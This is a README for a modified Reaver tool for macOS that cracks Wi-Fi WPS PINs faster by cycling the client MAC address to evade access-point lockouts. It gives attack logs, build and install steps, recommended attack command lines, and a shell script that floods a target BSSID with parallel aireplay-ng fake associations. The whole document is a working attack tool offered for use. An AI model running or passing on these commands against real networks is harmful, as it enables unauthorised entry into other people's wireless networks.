 REAVER WPS WITH MAC CHANGER FOR OSX
==============

REAVER WPS modified version with MAC Address last character changer to speed up the attack.

Well, some times the AP will reject the "EAPOL Request" after a success pin try. I made some tests with simultaneous reaver instances running with different MACs (the -m argument), and when one instance gets "WARNING: Receive timeout occurred", the other gets "Received identity request" and continue the cracking.

The problem of this method is: The reaver tool doesn't support simultaneous instances (ok, I read the FAQ about it). If you run two reaver instances, by example, the two instances will try the same pin at the same time.

I made some changes on the reaver source code. Look the output after my changes:

```
[+] Using MAC BC:99:47:B7:03:E9
[+] Trying pin 00485678
[+] Sending EAPOL START request
[!] WARNING: Receive timeout occurred
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received identity request
[+] Sending identity response
[+] Received identity request
[+] Sending identity response
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M1 message
[+] Received M1 message
[+] Received M1 message
[+] Received M3 message
[+] Sending M4 message
[+] Received M3 message
[+] Received M3 message
[+] Received WSC NACK
[+] Sending WSC NACK
[+] Using MAC BC:99:47:B7:03:E8
[+] Trying pin 00495677
[+] Sending EAPOL START request
[!] WARNING: Receive timeout occurred
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M1 message
[+] Received M1 message
[+] Received M1 message
[+] Received M3 message
[+] Sending M4 message
[+] Received M3 message
[+] Received M3 message
[+] Received M3 message
[+] Received WSC NACK
[+] Sending WSC NACK
[+] Using MAC BC:99:47:B7:03:E7 
[+] Trying pin 00505673
...
```

On the first try, reaver is using the client MAC "BC:99:47:B7:03:E9" (it is not a real MAC, I'm just using for the example), on the second, "BC:99:47:B7:03:E8", on the third, "BC:99:47:B7:03:E7". Well, after the use of the MAC "BC:99:47:B7:03:E0", reaver will start again on "BC:99:47:B7:03:E9".

The numbers:

With this method: (13 seconds/pin)
Without this method: (31 seconds/pin)

How to install
==============

Extract the tarball

```bash
    tar -xzvf reaver-1.4-mac-changer.tar.gz
```

Build Reaver

```bash
    cd reaver-1.4-mac-changer
    cd src
    ./configure
    make
```

Install Reaver

```bash
    sudo make install
```

How to use
==============

```bash
reaver -i mon0 -b AA:BB:CC:DD:EE:FF -M
```

or

```bash
reaver -i mon0 -b AA:BB:CC:DD:EE:FF --mac-changer
```

What I recommend:

```bash
reaver -i mon0 -b AA:BB:CC:DD:EE:FF --mac-changer --no-nacks --win7 --no-associate -vv
```

To associate more effectively, I recommend to use aireplay-ng tool. Create a "associate.sh" file, and put this inside:

```bash
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:ZF  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:ZE  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:ZD  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:ZC  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:ZB  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:ZA  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z9  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z8  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z7  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z6  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z5  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z4  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z3  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z2  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z1  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z0  &
```

PS: Change AA:BB:CC:DD:EE:FF to the BSSID and ZZ:ZZ:ZZ:ZZ:ZZ:Z to your MAC (without the last digit).

Before using reaver tool, just type "sh associate.sh". To kill all the aireplay-ng, type "killall aireplay-ng".

If you have success using this method, please, share with us to improve more and more the reaver WPS.

Author
==============

[@gabrielrcouto](http://www.twitter.com/gabrielrcouto)


Patch to OSX
==============

[@windows98SE](http://www.facebook.com/windows98SE)

License
==============

[MIT License](http://zenorocha.mit-license.org/)
